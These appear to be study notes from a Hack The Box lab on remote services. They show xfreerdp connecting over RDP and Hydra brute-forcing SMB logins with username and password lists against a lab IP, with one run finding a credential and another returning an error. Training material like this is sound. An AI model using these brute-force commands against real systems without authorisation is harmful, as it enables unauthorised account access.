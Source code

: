 - Linux on the other offers different clients to communicate with the  desitred server using the RDP protocol 
- The include [Remmina](https://remmina.org/) [rdesktop](http://www.rdesktop.org/) [xfeerdp](https://linux.die.net/man/1/xfreerdp) amd of course many others but in this the HTB we will use xfreerdp
```Shell-session
00818@htb[/htb]$ xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

Shell session continued 
```Shell-session
00818@htb[/htb]$ xfreerdp /v:10.129.42.197 /u:user /p:password

...SNIP...
New Certificate details:
        Common Name: WINSRV
        Subject:     CN = WINSRV
        Issuer:      CN = WINSRV
        Thumbprint:  cd:91:d0:3e:7f:b7:bb:40:0e:91:45:b0:ab:04:ef:1e:c8:d5:41:42:49:e0:0c:cd:c7:dd:7d:08:1f:7c:fe:eb

Do you trust the above certificate? (Y/T/N) Y
```

## SMB 
- The Server message block AKA `SMB` is a protocol responsible for transferring data between a client and a server in local area networks 
- This is mainly used to implement file and directory sharing and printing services in Windows networks 
- SMB is often refferred to ass a file system, but it is not `SMB` can be compared to NFS for Unix and LInux providing drivers

## Hydra SMB
```Shell-session
00818@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:37:31
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid passwords found
```

- However it is possible to get an error like this
```Shell-session
00818@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```
